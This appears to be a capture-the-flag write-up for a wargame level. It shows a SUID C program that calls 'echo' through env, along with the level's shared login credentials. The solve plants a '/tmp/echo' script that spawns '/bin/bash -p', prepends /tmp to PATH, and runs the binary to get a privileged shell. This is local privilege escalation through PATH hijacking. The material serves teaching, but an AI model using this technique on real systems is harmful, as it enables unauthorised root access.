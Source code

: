 # username / password
level01 / level01
# objective
* There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
* To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
# concept
* PATH hijacking
* the binary references a system command with a relative filepath `echo`, so it's vulnerable to Linux path hijacking
# method of solve
* to perform path hijacking, we need to create a malicious `echo` file in a writable directory. We'll use `tmp`
```
echo '/bin/bash -p' > /tmp/echo
chmod +x /tmp/echo
```
* the next step is to add the `/tmp` directory to the path
```
export PATH=/tmp:$PATH
```
* now when we run the SUID binary, it will run the code in the malicious `echo` file we created in the `/tmp` directory
```
/home/flag01/flag01
getflag
```
